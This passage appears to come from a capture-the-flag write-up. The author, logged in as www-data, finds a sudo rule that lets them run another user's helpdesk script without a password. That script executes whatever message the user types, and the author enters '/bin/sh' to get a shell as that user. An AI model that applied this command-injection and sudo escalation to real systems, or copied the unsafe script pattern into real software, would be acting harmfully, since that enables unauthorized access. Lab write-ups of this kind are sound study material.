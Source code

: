 ```
anurodh
apaar
aurick
```

Looked into the **apaar** directory, and saw the following:
	
```
drwxr-xr-x 5 apaar apaar 4096 Oct  4 14:11 .
drwxr-xr-x 5 root  root  4096 Oct  3 04:28 ..
-rw------- 1 apaar apaar    0 Oct  4 14:14 .bash_history
-rw-r--r-- 1 apaar apaar  220 Oct  3 04:25 .bash_logout
-rw-r--r-- 1 apaar apaar 3771 Oct  3 04:25 .bashrc
drwx------ 2 apaar apaar 4096 Oct  3 05:20 .cache
drwx------ 3 apaar apaar 4096 Oct  3 05:20 .gnupg
-rwxrwxr-x 1 apaar apaar  286 Oct  4 14:11 .helpline.sh
-rw-r--r-- 1 apaar apaar  807 Oct  3 04:25 .profile
drwxr-xr-x 2 apaar apaar 4096 Oct  3 05:19 .ssh
-rw------- 1 apaar apaar  817 Oct  3 04:27 .viminfo
-rw-rw---- 1 apaar apaar   46 Oct  4 07:25 local.txt
```

I ran a **sudo -l** command to find out if there were any commands that I could run with elevated priveleges. I got:
	
```
User www-data may run the following commands on ubuntu:
    (apaar : ALL) NOPASSWD: /home/apaar/.helpline.sh
```

It says that I can run the **/home/apaar/.helpline.sh** file as user **apaar** without a password. I pulled up the source code for the **.helpline.sh** file:
	
```shell
#!/bin/bash

echo
echo "Welcome to helpdesk. Feel free to talk to anyone at any time!"
echo

read -p "Enter the person whom you want to talk with: " person

read -p "Hello user! I am $person,  Please enter your message: " msg

$msg 2>/dev/null

echo "Thank you for your precious time!"
```

It looks like the **$msg** variable could be used to execute some code inside the program(as the user **apaar**). So I ran the **.helpline.sh** program as **apaar**:
	
```
$ sudo -u apaar /home/apaar/.helpline.sh

Welcome to helpdesk. Feel free to talk to anyone at any time!

/bin/sh
/bin/sh

id
uid=1001(apaar) gid=1001(apaar) groups=1001(apaar)
```
